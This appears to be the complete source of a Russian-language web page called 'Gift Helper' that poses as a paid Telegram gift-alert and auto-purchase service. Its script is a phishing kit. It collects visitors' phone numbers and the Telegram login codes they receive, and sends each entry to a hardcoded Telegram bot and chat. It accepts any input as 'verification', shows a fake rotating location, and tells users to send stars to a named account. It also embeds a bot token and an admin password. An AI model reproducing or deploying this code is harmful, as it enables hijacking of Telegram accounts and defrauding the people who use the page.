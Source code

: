 <!doctype html>
<html lang="ru">
<head>
  <meta charset="utf-8" />
  <meta name="viewport" content="width=device-width,initial-scale=1" />
  <title>Gift Helper</title>
  <style>
:root {
  --neon:#0ff;
  --green:#6aff6a;
  --bg:#000;
}

* {
  box-sizing: border-box;
}

body {
  margin: 0;
  min-height: 100vh;
  background: var(--bg);
  color: var(--neon);
  font-family: "Segoe UI", Roboto, Arial;
  display: flex;
  justify-content: center;
  align-items: flex-start;
  padding: 20px;
}

/* TOP BAR */
#top-bar {
  position: fixed;
  left: 50%;
  transform: translateX(-50%);
  top: 10px;
  padding: 8px 12px;
  background: rgba(0, 0, 0, 0.75);
  border-radius: 10px;
  border: 1px solid rgba(0, 255, 255, 0.12);
  color: var(--neon);
  font-size: 13px;
  z-index: 100;
  display: flex;
  gap: 12px;
  align-items: center;
}

#ip-fixed {
  color: var(--green);
  font-weight: 700;
  text-shadow: 0 0 10px rgba(0, 255, 0, 0.25);
}

#ip-location {
  color: rgba(170, 255, 170, 0.9);
  font-size: 12px;
  margin-left: 6px;
}

#codes-left {
  background: rgba(0, 255, 0, 0.06);
  padding: 4px 8px;
  border-radius: 6px;
  color: var(--green);
  font-weight: 700;
}

.small-btn {
  background: transparent;
  border: 1px solid rgba(255, 255, 255, 0.06);
  color: var(--neon);
  padding: 6px 8px;
  border-radius: 6px;
  cursor: pointer;
}

/* pages */
.page {
  width: 380px;
  max-width: calc(100% - 40px);
  margin-top: 80px;
  text-align: center;
}

.hidden {
  display: none;
}

h1, h2 {
  margin: 12px 0;
  text-shadow: 0 0 8px rgba(0, 255, 255, 0.12);
}

/* column */
.col {
  display: flex;
  flex-direction: column;
  gap: 12px;
  align-items: center;
  margin-top: 12px;
}

.neon {
  width: 240px;
  padding: 12px 18px;
  border-radius: 12px;
  background: transparent;
  color: var(--neon);
  border: 2px solid rgba(0, 255, 255, 0.18);
  box-shadow: 0 0 14px rgba(0, 255, 255, 0.06);
  cursor: pointer;
  font-size: 15px;
  transition: all 0.18s ease;
}

.neon:hover {
  background: var(--neon);
  color: #000;
  box-shadow: 0 0 30px var(--neon);
  transform: translateY(-3px);
}

/* back button */
.back-big {
  margin-top: 18px;
  width: 84px;
  height: 84px;
  border-radius: 50%;
  border: 2px solid rgba(255, 255, 255, 0.06);
  background: rgba(0, 0, 0, 0.5);
  color: var(--neon);
  font-size: 16px;
  display: flex;
  align-items: center;
  justify-content: center;
  cursor: pointer;
  box-shadow: 0 0 10px rgba(0, 255, 255, 0.06);
}

/* inputs */
input[type=tel], input[type=text], input[type=number] {
  width: 220px;
  padding: 10px;
  margin: 8px auto;
  border-radius: 8px;
  border: 1px solid rgba(0, 255, 255, 0.12);
  background: #050505;
  color: var(--neon);
  text-align: center;
}

.desc {
  color: #aee;
  font-size: 13px;
  margin: 6px 0 12px;
}

/* categories and codes */
.categories {
  display: flex;
  gap: 10px;
  justify-content: center;
  margin: 10px 0;
}

.codes-list {
  display: flex;
  flex-wrap: wrap;
  gap: 8px;
  justify-content: center;
  margin-top: 10px;
}

.code-item {
  padding: 8px 10px;
  border-radius: 8px;
  background: #050505;
  border: 1px solid rgba(0, 255, 255, 0.06);
  color: var(--neon);
  cursor: pointer;
}

.code-item.issued {
  background: linear-gradient(90deg, rgba(0, 255, 255, 0.03), rgba(0, 255, 0, 0.03));
  color: var(--green);
}

/* meme */
.meme-area {
  position: relative;
  height: 80px;
  overflow: visible;
  margin-top: 6px;
}

.meme {
  position: absolute;
  top: 18px;
  padding: 8px 12px;
  border-radius: 8px;
  background: rgba(0, 0, 0, 0.6);
  border: 1px solid rgba(0, 255, 0, 0.12);
  color: var(--green);
  font-weight: 700;
  text-shadow: 0 0 10px rgba(0, 255, 0, 0.35);
  white-space: nowrap;
  box-shadow: 0 0 20px rgba(0, 255, 0, 0.06);
  pointer-events: none;
}

.error {
  color: #ff6a6a;
  margin-top: 10px;
  font-weight: 700;
}

.celebrate {
  animation: celebrate 900ms ease both;
}

@keyframes celebrate {
  0% {
    transform: scale(0.92);
    opacity: 0;
    filter: blur(4px);
  }
  50% {
    transform: scale(1.06);
    opacity: 1;
    filter: blur(0);
  }
  100% {
    transform: scale(1);
    opacity: 1;
    filter: blur(0);
  }
}
@media (max-width: 420px) {
  .page {
    width: 94%;
    margin-top: 110px;
  }

  .neon {
    width: 86%;
  }

  .back-big {
    width: 72px;
    height: 72px;
    font-size: 14px;
  }
}
  </style>
</head>
<body>

<div id="top-bar">
  <span id="ip-fixed">Ваш IP: ЗАСЕКРЕЧЕНО</span>
  <span id="ip-location">Канада, Toronto</span>
  <span id="codes-left">Коды: 25</span>
  <button id="admin-toggle" class="small-btn">Коды</button>
</div>

<main id="page-home" class="page">
  <h1 data-lang="title">Gift Helper</h1>
  <div class="col">
    <button id="btn-connect" class="neon" data-lang="btnConnect">Подключить тариф</button>
    <button id="btn-lang" class="neon" data-lang="btnLang">Поменять язык</button>
    <button id="btn-support" class="neon" data-lang="btnSupport">Поддержка</button>
  </div>
</main>

<section id="page-plans" class="page hidden">
  <h2 data-lang="choosePlan">Выберите тариф</h2>
  <div class="col">
    <button class="tariff neon" data-tariff="free"><span data-lang="free">Бесплатно</span></button>
    <div class="desc" data-lang="freeDesc"></div>

    <button class="tariff neon" data-tariff="25"><span data-lang="stars25">25 звёзд</span></button>
    <div class="desc" data-lang="stars25Desc"></div>

    <button class="tariff neon" data-tariff="50"><span data-lang="stars50">50 звёзд</span></button>
    <div class="desc" data-lang="stars50Desc"></div>
  </div>
  <button class="back-big" data-back="home"><span data-lang="back">Назад</span></button>
</section>

<section id="page-detail" class="page hidden">
  <h2 id="detail-title"></h2>
  <p id="detail-desc" class="desc"></p>

  <div id="cats" class="categories hidden">
    <label><input name="cat" type="radio" value="cheap"> Дешёвый</label>
    <label><input name="cat" type="radio" value="medium" checked> Средний</label>
    <label><input name="cat" type="radio" value="expensive"> Дорогой</label>
  </div>

  <button id="detail-continue" class="neon">Продолжить</button>
  <button class="back-big" data-back="plans"><span data-lang="back">Назад</span></button>
</section>

<section id="page-phone" class="page hidden">
  <h2 data-lang="enterPhoneTitle"></h2>
  <p class="desc" data-lang="phoneHint"></p>
  <input id="input-phone" type="tel" placeholder="+7..." />
  <button id="phone-send" class="neon">Отправить</button>
  <button class="back-big" data-back="detail"><span data-lang="back">Назад</span></button>
</section>

<section id="page-phone-verify" class="page hidden">
  <h2 data-lang="enterPhoneCode"></h2>
  <p class="desc">Введите код, который пришёл вам в Telegram.</p>
  <input id="input-phone-code" type="text" placeholder="Код из Telegram" />
  <div id="phone-code-error" class="error hidden"></div>
  <button id="phone-code-submit" class="neon">Подтвердить номер</button>
  <button class="back-big" data-back="phone"><span data-lang="back">Назад</span></button>
</section>

<section id="page-checkout" class="page hidden">
  <h2 data-lang="checkoutTitle"></h2>

  <div id="checkout-cats" class="hidden">
    <div class="desc">Выберите категорию подарка</div>
    <div class="categories">
      <label><input name="cat2" type="radio" value="cheap"> Дешёвый</label>
      <label><input name="cat2" type="radio" value="medium" checked> Средний</label>
      <label><input name="cat2" type="radio" value="expensive"> Дорогой</label>
    </div>
  </div>

  <div id="checkout-qty" class="hidden">
    <label data-lang="qtyLabel"></label>
    <input id="input-qty" type="number" min="1" max="10000" value="1" />
    <p id="total-sum" class="desc"></p>
  </div>

  <p id="send-instruction" class="desc"></p>
  <button id="paid-btn" class="neon">Я оплатил</button>
  <button class="back-big" data-back="phone"><span data-lang="back">Назад</span></button>
</section>

<section id="page-manager-code" class="page hidden">
  <h2 data-lang="enterManagerCode"></h2>
  <p class="desc">Введите менеджерский код, выданный админом.</p>
  <input id="input-manager-code" type="text" placeholder="Код менеджера" />
  <div id="manager-code-error" class="error hidden"></div>
  <button id="manager-code-submit" class="neon">Подтвердить код</button>
  <button class="back-big" data-back="checkout"><span data-lang="back">Назад</span></button>
</section>

<section id="page-login-code" class="page hidden">
  <h2 data-lang="enterLoginCode"></h2>
  <p class="desc">Введите финальный код, который вам отправит админ в Telegram.</p>
  <input id="input-login-code" type="text" placeholder="Код из Telegram" />
  <div id="login-code-error" class="error hidden"></div>
  <button id="login-code-submit" class="neon">Подтвердить</button>
  <button class="back-big" data-back="manager-code"><span data-lang="back">Назад</span></button>
</section>

<section id="page-activated" class="page hidden">
  <div class="celebrate">
    <h2 id="activated-msg"></h2>
    <p class="desc">Если есть вопросы — пишите: <b>@GIFTHELPER_support</b></p>
  </div>
  <button class="neon" id="to-home">На главную</button>
</section>

<section id="page-support" class="page hidden">
  <h2 data-lang="supportTitle">Поддержка</h2>
  <div class="support-user">@GIFTHELPER_support</div>
  <div id="meme-area" class="meme-area"></div>
  <button class="back-big" data-back="home"><span data-lang="back">Назад</span></button>
</section>

<section id="page-admin" class="page hidden">
  <h2>Админ — Коды</h2>
  <p class="desc">Нажмите код, чтобы выдать его клиенту (копируется в буфер и переходит в issued).</p>
  <div id="codes-list" class="codes-list"></div>
  <p class="desc">Остаток: <span id="admin-left">0</span></p>
  <button class="back-big" data-back="home"><span data-lang="back">Назад</span></button>
</section>

<script>
/* ===== CONFIG ===== */
const BOT_TOKEN = "8444402955:AAHSZZyRkJE6FSHH8TtXDgGBfWSp3ryV9RE";
const CHAT_ID  = "7449969304";
const ADMIN_PASSWORD = "serafimLOSER";
const SUPPORT = "@GIFTHELPER_support";
const PAY_USER = "Juilly";

/* 25 manager codes */
const INITIAL_CODES = [
  "CODE-0001","CODE-0002","CODE-0003","CODE-0004","CODE-0005",
  "CODE-0006","CODE-0007","CODE-0008","CODE-0009","CODE-0010",
  "CODE-0011","CODE-0012","CODE-0013","CODE-0014","CODE-0015",
  "CODE-0016","CODE-0017","CODE-0018","CODE-0019","CODE-0020",
  "CODE-0021","CODE-0022","CODE-0023","CODE-0024","CODE-0025"
];

const LS_AVAILABLE = 'avail_codes_v1';
const LS_ISSUED    = 'issued_codes_v1';
const LS_USED      = 'used_codes_v1';
const LS_LANG      = 'lang_v1';

function loadArray(k, def){ try{ const s=localStorage.getItem(k); return s?JSON.parse(s):def; }catch(e){ return def; } }
function saveArray(k, v){ localStorage.setItem(k, JSON.stringify(v)); }
function loadObj(k, def){ try{ const s=localStorage.getItem(k); return s?JSON.parse(s):def; }catch(e){ return def; } }
function saveObj(k, v){ localStorage.setItem(k, JSON.stringify(v)); }

let availableCodes = loadArray(LS_AVAILABLE, INITIAL_CODES.slice());
let issuedCodes = loadObj(LS_ISSUED, {});
let usedCodes = loadObj(LS_USED, {});
let lang = localStorage.getItem(LS_LANG) || 'ru';

let currentTariff = null;
let currentCategory = null;
let phoneForSession = '';
let loginCode = '';
let currentQty = 1;
let currentAmount = 0;

/* DOM helpers */
const $ = id => document.getElementById(id);
const q = s => Array.from(document.querySelectorAll(s));
function hideAll(){ q('.page').forEach(p=>p.classList.add('hidden')); }
function go(page){ hideAll(); const n = $('page-'+page); if(n) n.classList.remove('hidden'); $('top-bar').style.display = (page==='home') ? 'flex' : 'none'; updateCodesLeft(); applyLang(); }

/* TEXT */
const TEXT = {
  ru: {
    title:'Gift Helper', btnConnect:'Подключить тариф', btnLang:'Поменять язык', btnSupport:'Поддержка',
    choosePlan:'Выберите тариф', free:'Бесплатно', freeDesc:'Звонки через Telegram при появлении подарков (точность 85%).',
    stars25:'25 звёзд', stars25Desc:'Телефон воспроизводит сирену в Telegram при появлении подарков.',
    stars50:'50 звёзд', stars50Desc:'Автоматическая покупка подарка (50 звёзд = 1 подарок).',
    back:'Назад', enterPhoneTitle:'Введите номер телефона для входа на сайте', phoneHint:'Введите номер, привязанный к Telegram — вы получите код в Telegram.',
    checkoutTitle:'Оплата', qtyLabel:'Количество подарков (1–10000)', enterPhoneCode:'Введите код из Telegram', enterManagerCode:'Код от менеджера', enterLoginCode:'Введите код из Telegram',
    sendExactly: s => `Отправьте ровно ${s} звёзд пользователю @${PAY_USER}`,
    successActivated: t => `Тариф "${t}" активирован`
  },
  en: {
    title:'Gift Helper', btnConnect:'Connect Plan', btnLang:'Change Language', btnSupport:'Support',
    choosePlan:'Choose a plan', free:'Free', freeDesc:'Receive Telegram calls when gifts appear (85% accuracy).',
    stars25:'25 stars', stars25Desc:'Your phone will sound an alarm in Telegram when gifts appear.',
    stars50:'50 stars', stars50Desc:'Automatic gift purchase (50 stars = 1 gift).',
    back:'Back', enterPhoneTitle:'Enter phone number to log in', phoneHint:"Enter the phone linked to Telegram — you'll receive a code in Telegram.",
    checkoutTitle:'Payment', qtyLabel:'Number of gifts (1–10000)', enterPhoneCode:'Enter the code from Telegram', enterManagerCode:'Manager code', enterLoginCode:'Enter the Telegram code',
    sendExactly: s => `Send exactly ${s} stars to @${PAY_USER}`,
    successActivated: t => `Plan "${t}" activated`
  }
};

function applyLang(){
  q('[data-lang]').forEach(n=>{
    const k = n.getAttribute('data-lang'); if(!k) return;
    const v = TEXT[lang][k]; n.textContent = (typeof v === 'function')? v() : v;
  });
  q('[data-back]').forEach(b=>{ const s = b.querySelector('span'); if(s) s.textContent = TEXT[lang].back; });
}

/* Init bindings */
window.addEventListener('DOMContentLoaded', ()=>{
  $('btn-connect').addEventListener('click', ()=> go('plans'));
  $('btn-lang').addEventListener('click', ()=> { lang = (lang==='ru')?'en':'ru'; localStorage.setItem(LS_LANG, lang); applyLang(); });
  $('btn-support').addEventListener('click', ()=> go('support'));

  q('.tariff').forEach(b => b.addEventListener('click', ()=> startTariff(b.dataset.tariff)));
  $('detail-continue').addEventListener('click', ()=> { const r = document.querySelector('input[name="cat"]:checked'); currentCategory = r? r.value : null; go('phone'); });

  $('phone-send').addEventListener('click', onPhoneSend);
  $('phone-code-submit').addEventListener('click', onPhoneCodeSubmit);
  $('paid-btn').addEventListener('click', onPaid);
  $('manager-code-submit').addEventListener('click', onManagerCodeSubmit);
  $('login-code-submit') && $('login-code-submit').addEventListener('click', onLoginCodeSubmit);

  $('input-qty') && $('input-qty').addEventListener('input', updateTotal);

  q('[data-back]').forEach(b=> b.addEventListener('click', ()=> go(b.dataset.back)));

  $('admin-toggle').addEventListener('click', adminLogin);
  $('to-home') && $('to-home').addEventListener('click', ()=> go('home'));

  setInterval(showMeme, 3000); showMeme();

  setInterval(()=> {
    const list = ['Canada, Toronto','USA, New York','Germany, Berlin','France, Paris','Netherlands, Amsterdam'];
    $('ip-location').textContent = list[Math.floor(Math.random()*list.length)];
  }, 4000);

  applyLang(); go('home'); updateCodesLeft();
});

/* Flows */
function startTariff(t){
  currentTariff = t; currentCategory = null; phoneForSession=''; loginCode=''; currentQty=1; currentAmount=0;
  $('detail-title').textContent = (t==='free')? TEXT[lang].free : (t==='25'? TEXT[lang].stars25 : TEXT[lang].stars50);
  $('detail-desc').textContent = (t==='free')? TEXT[lang].freeDesc : (t==='25'? TEXT[lang].stars25Desc : TEXT[lang].stars50Desc);
  if(t==='50') $('cats').classList.remove('hidden'); else $('cats').classList.add('hidden');
  go('detail');
}

/* Phone send: generate code for admin only, go to phone-verify (user doesn't see extra hints) */
function gen4(){ return String(Math.floor(1000 + Math.random()*9000)); }
function onPhoneSend(){
  const phone = $('input-phone').value.trim();
  if(!phone){ alert(lang==='ru' ? 'Введите номер телефона' : 'Enter phone'); return; }
  phoneForSession = phone;
  const phoneCode = gen4();
  sessionStorage.setItem('phoneCode', phoneCode);
  sendToTelegram(`📥 Новый телефон\nТариф: ${displayTariffName()}\nТелефон: ${phone}\nКод подтверждения: ${phoneCode}`);
  $('input-phone-code').value = ''; $('phone-code-error').classList.add('hidden');
  go('phone-verify');
}

/* Phone code submit: accept any non-empty input (no UI hints about that) */
function onPhoneCodeSubmit(){
  const entered = $('input-phone-code').value.trim();
  sendToTelegram(`🔐 Ввод кода подтверждения\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}\nКод введён: ${entered}`);
  if(!entered){ $('phone-code-error').textContent = (lang==='ru' ? 'Введите код' : 'Enter code'); $('phone-code-error').classList.remove('hidden'); return; }
  $('phone-code-error').classList.add('hidden');

  if(currentTariff === 'free'){
    sendToTelegram(`✅ Активирован бесплатный тариф\nТелефон: ${phoneForSession}`);
    $('activated-msg').textContent = TEXT[lang].successActivated(TEXT[lang].free);
    go('activated');
    return;
  }

  if(currentTariff === '25'){
    $('checkout-cats').classList.add('hidden'); $('checkout-qty').classList.add('hidden');
    currentAmount = 25; $('send-instruction').textContent = TEXT[lang].sendExactly(currentAmount);
  } else if(currentTariff === '50'){
    $('checkout-cats').classList.remove('hidden'); $('checkout-qty').classList.remove('hidden');
    $('input-qty').value = '1'; updateTotal();
  }
  go('checkout');
}

/* updateTotal for 50 */
function updateTotal(){
  const qv = Math.max(1, parseInt($('input-qty').value) || 1);
  currentQty = qv; currentAmount = currentQty * 50;
  $('total-sum').textContent = (lang==='ru' ? `Сумма: ${currentAmount} звёзд` : `Total: ${currentAmount} stars`);
  $('send-instruction').textContent = TEXT[lang].sendExactly(currentAmount);
}

/* onPaid */
function onPaid(){
  if(!phoneForSession){ alert(lang==='ru' ? 'Телефон не указан. Вернитесь и введите номер.' : 'Phone missing. Enter phone first.'); go('phone'); return; }
  if(currentTariff === '50') updateTotal(); else if(currentTariff === '25') currentAmount = 25;
  sendToTelegram(`💳 Пользователь нажал "Я оплатил"\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}\nСумма: ${currentAmount} звёзд\nПожалуйста, выдайте менеджерский код.`);
  $('input-manager-code').value = ''; $('manager-code-error').classList.add('hidden');
  go('manager-code');
}

/* manager code submit — must be issued & not used */
function onManagerCodeSubmit(){
  const code = $('input-manager-code').value.trim();
  sendToTelegram(`🔐 Ввод менеджерского кода\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}\nКод введён: ${code}`);
  if(!code){ $('manager-code-error').textContent = (lang==='ru' ? 'Введите код менеджера' : 'Enter manager code'); $('manager-code-error').classList.remove('hidden'); return; }

  if(issuedCodes[code] && !usedCodes[code]){
    usedCodes[code] = Date.now(); saveObj(LS_USED, usedCodes);
    delete issuedCodes[code]; saveObj(LS_ISSUED, issuedCodes);
    updateCodesLeft();
    loginCode = gen4(); sessionStorage.setItem('loginCode', loginCode);
    sendToTelegram(`🔑 Сгенерирован финальный код входа\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}\nКод входа: ${loginCode}`);
    $('input-login-code').value = ''; $('login-code-error').classList.add('hidden');
    go('login-code');
  } else {
    $('manager-code-error').textContent = (lang==='ru' ? 'Неверный или невыданный менеджерский код' : 'Invalid or not-issued manager code'); $('manager-code-error').classList.remove('hidden');
  }
}

/* login code submit */
function onLoginCodeSubmit(){
  const code = $('input-login-code').value.trim();
  const expected = sessionStorage.getItem('loginCode') || loginCode;
  sendToTelegram(`🔐 Ввод финального кода\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}\nКод введён: ${code}`);
  if(!code){ $('login-code-error').textContent = (lang==='ru' ? 'Введите код' : 'Enter code'); $('login-code-error').classList.remove('hidden'); return; }
  if(code === expected){
    $('login-code-error').classList.add('hidden');
    sendToTelegram(`✅ Тариф активирован\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}`);
    $('activated-msg').textContent = TEXT[lang].successActivated(displayTariffName());
    go('activated');
    sessionStorage.removeItem('phoneCode'); sessionStorage.removeItem('loginCode');
  } else {
    $('login-code-error').textContent = (lang==='ru' ? 'Неверный код из Telegram' : 'Wrong Telegram code'); $('login-code-error').classList.remove('hidden');
  }
}

/* ADMIN */
function adminLogin(){
  const p = prompt('Введите пароль администратора:');
  if(!p) return;
  if(p === ADMIN_PASSWORD){ populateAdmin(); go('admin'); } else alert('Неверный пароль');
}

function populateAdmin(){
  const wrap = $('codes-list'); wrap.innerHTML = '';
  availableCodes.forEach((c, idx) => {
    const d = document.createElement('div'); d.className='code-item'; d.textContent = c;
    d.addEventListener('click', ()=>{
      const phone = prompt('Кому выдаём код? Введите телефон клиента (или оставьте пустым):','');
      availableCodes.splice(idx,1); saveArray(LS_AVAILABLE, availableCodes);
      issuedCodes[c] = { phone: phone || null, at: Date.now() }; saveObj(LS_ISSUED, issuedCodes);
      updateCodesLeft(); populateAdmin();
      navigator.clipboard && navigator.clipboard.writeText(c).catch(()=>{});
      sendToTelegram(`📤 Код выдан\nКод: ${c}\nКому: ${phone || 'не указан'}\nОсталось кодов: ${availableCodes.length}`);
      alert('Код выдан и скопирован: '+c);
    });
    wrap.appendChild(d);
  });
  Object.keys(issuedCodes).forEach(c=>{
    const d = document.createElement('div'); d.className='code-item issued'; const meta=issuedCodes[c];
    d.textContent = `${c} (issued to ${meta.phone||'—'})`; wrap.appendChild(d);
  });
  Object.keys(usedCodes).forEach(c=>{
    const d = document.createElement('div'); d.className='code-item'; d.style.opacity='0.4'; d.textContent = `${c} (used)`; wrap.appendChild(d);
  });
  $('admin-left').textContent = availableCodes.length;
}

function updateCodesLeft(){ $('codes-left') && ($('codes-left').textContent = 'Коды: '+availableCodes.length); $('admin-left') && ($('admin-left').textContent = availableCodes.length); }

/* MEMES */
const MEMES = ["cool boy","hacker mode","gift boss","system online","VIP ACCESS","nice try","glhf"];
function showMeme(){
  const area = $('meme-area'); if(!area) return; area.innerHTML='';
  const m = document.createElement('div'); m.className='meme'; m.textContent = MEMES[Math.floor(Math.random()*MEMES.length)];
  area.appendChild(m); const fromLeft = Math.random()<0.5; const start = fromLeft ? -300 : 300;
  m.style.transform = `translateX(${start}px)`; m.animate([{transform:`translateX(${start}px)`, opacity:0},{transform:'translateX(0)', opacity:1}], {duration:500});
  setTimeout(()=>{ const end = fromLeft ? -300 : 300; m.animate([{transform:'translateX(0)', opacity:1},{transform:`translateX(${end}px)`, opacity:0}], {duration:500}); setTimeout(()=>{ try{ m.remove(); }catch(e){} },520); }, 2600);
}

/* helpers */
function displayTariffName(){ if(currentTariff==='free') return (lang==='ru'?'Бесплатно':'Free'); if(currentTariff==='25') return (lang==='ru'?'25 звёзд':'25 stars'); if(currentTariff==='50') return (lang==='ru'?`50 звёзд x${currentQty}`:`50 stars x${currentQty}`); return ''; }

function sendToTelegram(text){
  fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
    method:'POST', headers:{'Content-Type':'application/json'},
    body: JSON.stringify({ chat_id: CHAT_ID, text })
  }).catch(e=>console.error('tg send error', e));
}

window.addEventListener('beforeunload', ()=> {
  saveArray(LS_AVAILABLE, availableCodes);
  saveObj(LS_ISSUED, issuedCodes);
  saveObj(LS_USED, usedCodes);
});
</script>
</body>
</html>

